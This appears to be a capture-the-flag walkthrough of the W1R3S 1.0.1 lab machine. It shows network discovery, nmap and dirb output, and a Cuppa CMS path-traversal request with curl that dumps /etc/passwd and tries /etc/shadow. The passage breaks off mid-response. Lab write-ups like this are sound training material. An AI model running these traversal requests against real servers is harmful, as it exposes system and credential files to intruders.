





#### W1R3S: 1.0.1

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [JTR](#jtr)
- [FTP Enumeration](#ftp-enumeration)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.11  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 117  bytes 20426 (19.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 61  bytes 8561 (8.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~/W1R3S# netdiscover
 Currently scanning: 192.168.55.0/16   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 6 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.8     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.12    f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.12    08:00:27:dd:40:64      1      60  PCS Systemtechnik GmbH
 192.168.1.4     bc:9f:ef:69:35:19      1      60  Apple, Inc.
 192.168.1.6     70:77:81:c0:6c:33      1      60  Hon Hai Precision Ind. Co.,Ltd.

root@kali:~/W1R3S#
```

###### Nmap Scan

```sh
root@kali:~/W1R3S# nmap -sV -sC -oA w1r3s.nmap 192.168.1.12 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:43 EDT
Nmap scan report for 192.168.1.12
Host is up (0.00051s latency).
Not shown: 55528 filtered ports, 10003 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 12:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 17:53 new-employees
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.1.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 08:00:27:DD:40:64 (Oracle VirtualBox virtual NIC)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.39 seconds
root@kali:~/W1R3S#
```

###### Web Enumeration

```sh
root@kali:~/W1R3S# dirb http://192.168.1.12

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May 21 21:45:12 2018
URL_BASE: http://192.168.1.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.12/ ----
==> DIRECTORY: http://192.168.1.12/administrator/
+ http://192.168.1.12/index.html (CODE:200|SIZE:11321)
==> DIRECTORY: http://192.168.1.12/javascript/
+ http://192.168.1.12/server-status (CODE:403|SIZE:300)
==> DIRECTORY: http://192.168.1.12/wordpress/

---- Entering directory: http://192.168.1.12/administrator/ ----
==> DIRECTORY: http://192.168.1.12/administrator/alerts/
==> DIRECTORY: http://192.168.1.12/administrator/api/
==> DIRECTORY: http://192.168.1.12/administrator/classes/
==> DIRECTORY: http://192.168.1.12/administrator/components/
==> DIRECTORY: http://192.168.1.12/administrator/extensions/
+ http://192.168.1.12/administrator/index.php (CODE:302|SIZE:6946)
==> DIRECTORY: http://192.168.1.12/administrator/installation/
==> DIRECTORY: http://192.168.1.12/administrator/js/
==> DIRECTORY: http://192.168.1.12/administrator/language/
==> DIRECTORY: http://192.168.1.12/administrator/media/
+ http://192.168.1.12/administrator/robots.txt (CODE:200|SIZE:26)
==> DIRECTORY: http://192.168.1.12/administrator/templates/

---- Entering directory: http://192.168.1.12/javascript/ ----
==> DIRECTORY: http://192.168.1.12/javascript/jquery/

---- Entering directory: http://192.168.1.12/wordpress/ ----
+ http://192.168.1.12/wordpress/index.php (CODE:200|SIZE:55882)
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-content/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-includes/
+ http://192.168.1.12/wordpress/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://192.168.1.12/administrator/alerts/ ----
+ http://192.168.1.12/administrator/alerts/index.html (CODE:200|SIZE:31)

---- Entering directory: http://192.168.1.12/administrator/api/ ----
==> DIRECTORY: http://192.168.1.12/administrator/api/administrator/
+ http://192.168.1.12/administrator/api/index.php (CODE:200|SIZE:62)
==> DIRECTORY: http://192.168.1.12/administrator/api/test/

---- Entering directory: http://192.168.1.12/administrator/classes/ ----
==> DIRECTORY: http://192.168.1.12/administrator/classes/ajax/
+ http://192.168.1.12/administrator/classes/index.html (CODE:200|SIZE:31)

---- Entering directory: http://192.168.1.12/administrator/components/ ----
==> DIRECTORY: http://192.168.1.12/administrator/components/configuration/
+ http://192.168.1.12/administrator/components/index.html (CODE:200|SIZE:31)
==> DIRECTORY: http://192.168.1.12/administrator/components/menu/
==> DIRECTORY: http://192.168.1.12/administrator/components/stats/

---- Entering directory: http://192.168.1.12/administrator/extensions/ ----
==> DIRECTORY: http://192.168.1.12/administrator/extensions/banners/
==> DIRECTORY: http://192.168.1.12/administrator/extensions/content/
+ http://192.168.1.12/administrator/extensions/index.html (CODE:200|SIZE:31)

---- Entering directory: http://192.168.1.12/administrator/installation/ ----
==> DIRECTORY: http://192.168.1.12/administrator/installation/html/
+ http://192.168.1.12/administrator/installation/index.php (CODE:200|SIZE:4322)

---- Entering directory: http://192.168.1.12/administrator/js/ ----
==> DIRECTORY: http://192.168.1.12/administrator/js/filemanager/
+ http://192.168.1.12/administrator/js/index.html (CODE:200|SIZE:31)
==> DIRECTORY: http://192.168.1.12/administrator/js/jquery/
==> DIRECTORY: http://192.168.1.12/administrator/js/tiny_mce/

---- Entering directory: http://192.168.1.12/administrator/language/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/media/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/templates/ ----
==> DIRECTORY: http://192.168.1.12/administrator/templates/default/
+ http://192.168.1.12/administrator/templates/index.html (CODE:200|SIZE:31)

---- Entering directory: http://192.168.1.12/javascript/jquery/ ----
+ http://192.168.1.12/javascript/jquery/jquery (CODE:200|SIZE:284394)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/ ----
+ http://192.168.1.12/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/css/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/images/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/includes/
+ http://192.168.1.12/wordpress/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/js/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/maint/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/network/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-admin/user/

---- Entering directory: http://192.168.1.12/wordpress/wp-content/ ----
+ http://192.168.1.12/wordpress/wp-content/index.php (CODE:200|SIZE:0)
==> DIRECTORY: http://192.168.1.12/wordpress/wp-content/plugins/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-content/themes/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-content/upgrade/
==> DIRECTORY: http://192.168.1.12/wordpress/wp-content/uploads/

---- Entering directory: http://192.168.1.12/wordpress/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/api/administrator/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/api/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/classes/ajax/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/components/configuration/ ----
==> DIRECTORY: http://192.168.1.12/administrator/components/configuration/html/
+ http://192.168.1.12/administrator/components/configuration/index.php (CODE:200|SIZE:45)

---- Entering directory: http://192.168.1.12/administrator/components/menu/ ----
==> DIRECTORY: http://192.168.1.12/administrator/components/menu/classes/
==> DIRECTORY: http://192.168.1.12/administrator/components/menu/html/
+ http://192.168.1.12/administrator/components/menu/index.php (CODE:200|SIZE:45)

---- Entering directory: http://192.168.1.12/administrator/components/stats/ ----
+ http://192.168.1.12/administrator/components/stats/index.php (CODE:200|SIZE:45)

---- Entering directory: http://192.168.1.12/administrator/extensions/banners/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/extensions/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/installation/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/js/filemanager/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/js/jquery/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/js/tiny_mce/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/templates/default/ ----
==> DIRECTORY: http://192.168.1.12/administrator/templates/default/classes/
==> DIRECTORY: http://192.168.1.12/administrator/templates/default/css/
==> DIRECTORY: http://192.168.1.12/administrator/templates/default/html/
==> DIRECTORY: http://192.168.1.12/administrator/templates/default/images/
+ http://192.168.1.12/administrator/templates/default/index.php (CODE:500|SIZE:0)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/network/ ----
+ http://192.168.1.12/wordpress/wp-admin/network/admin.php (CODE:302|SIZE:0)
+ http://192.168.1.12/wordpress/wp-admin/network/index.php (CODE:302|SIZE:0)

---- Entering directory: http://192.168.1.12/wordpress/wp-admin/user/ ----
+ http://192.168.1.12/wordpress/wp-admin/user/admin.php (CODE:302|SIZE:0)
+ http://192.168.1.12/wordpress/wp-admin/user/index.php (CODE:302|SIZE:0)

---- Entering directory: http://192.168.1.12/wordpress/wp-content/plugins/ ----
+ http://192.168.1.12/wordpress/wp-content/plugins/index.php (CODE:200|SIZE:0)

---- Entering directory: http://192.168.1.12/wordpress/wp-content/themes/ ----
+ http://192.168.1.12/wordpress/wp-content/themes/index.php (CODE:200|SIZE:0)

---- Entering directory: http://192.168.1.12/wordpress/wp-content/upgrade/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/wordpress/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/components/configuration/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/components/menu/classes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/components/menu/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/templates/default/classes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/templates/default/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/templates/default/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.12/administrator/templates/default/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon May 21 21:46:51 2018
DOWNLOADED: 106076 - FOUND: 28
root@kali:~/W1R3S#
```









```sh
root@kali:~/W1R3S# searchsploit cuppa
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Cuppa CMS - '/alertConfigField.php' Lo | exploits/php/webapps/25971.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~/W1R3S#
```



```sh
root@kali:~/W1R3S# curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://192.168.1.12/administrator/alerts/alertConfigField.php
<style>
    .new_content{
        position: fixed;
    }
    .alert_config_field{
    	font-size:12px;
    	background:#FFF;
    	position:relative;
    	border-radius: 3px;
    	box-shadow: 0px 0px 5px rgba(0,0,0,0.2);
    	overflow:hidden;
    	position:fixed;
    	top:50%;
    	left:50%;
        width:600px;
    	height:440px;
    	margin-left:-300px;
    	margin-top:-220px;
    }
    .alert_config_top{
        position: relative;
        margin: 2px;
        margin-bottom: 0px;
        border: 1px solid #D2D2D2;
        background: #4489F8;
        overflow: auto;
        color:#FFF;
        font-size: 13px;
        padding: 7px 5px;
        box-shadow: 0 0 2px rgba(0, 0, 0, 0.1);
        text-shadow: 0 1px 1px rgba(0, 0, 0, 0.2);
    }
    .description_alert{
    	position:relative;
    	font-size:12px;
        text-shadow:0 1px #FFFFFF;
        font-weight: normal;
        padding: 5px 0px 5px 0px;
    }
    .btnClose_alert{
    	position:absolute;
        top: 4px; right: 2px;
    	width:22px;
    	height:22px;
    	cursor:pointer;
        background:url(js/cuppa/cuppa_images/close_white.png) no-repeat;
        background-position: center;
        background-size: 13px;
    }
    .content_alert_config{
    	position:relative;
    	clear:both;
        margin: 2px;
        margin-top: 0px;
        height: 401px;
        padding: 10px;
        overflow: auto;
    }
</style>
<script>
	function CloseDefaultAlert(){
		cuppa.setContent({'load':false, duration:0.2});
        cuppa.blockade({'load':false, duration:0.2, delay:0.1});
	}
</script>
<div class="alert_config_field" id="alert">
    <div class="alert_config_top">
        <strong>Configuration</strong>:         <div class="btnClose_alert" id="btnClose_alert" onclick="CloseDefaultAlert()"></div>
    </div>
    <div id="content_alert_config" class="content_alert_config">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
    </div>
</div>
root@kali:~/W1R3S#
```

```sh
root@kali:~/W1R3S# curl -s --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://192.168.1.12/administrator/alerts/alertConfigField.php
<style>
    .new_content{
        position: fixed;
    }
    .alert_config_field{
    	font-size:12px;
    	background:#FFF;
    	position:relative;
    	border-radius: 3px;
    	box-shadow: 0px 0px 5px rgba(0,0,0,0.2);
    	overflow:hidden;
    	position:fixed;
    	top:50%;
    	left:50%;
        width:600px;
    	height:440px;
    	margin-left:-300px;
    	margin-top:-220px;
    }
    .alert_config_top{
        position: relative;
        margin: 2px;
        margin-bottom: 0px;
        border: 1px solid #D2D2D2;
        background: #4489F8;
        overflow: auto;
        color:#FFF;
        font-size: 13px;
        padding: 7px 5px;
        box-shadow: 0 0 2px rgba(0, 0, 0, 0.1);
        text-shadow: 0 1px 1px rgba(0, 0, 0, 0.2);
    }
    .description_alert{
    	position:relative;
    	font-size:12px;
        text-shadow:0 1px #FFFFFF;
        font-weight: normal;
        padding: 5px 0px 5px 0px;
    }
    .btnClose_alert{
    	position:absolute;
        top: 4px; right: 2px;
    	width:22px;
    	height:22px;
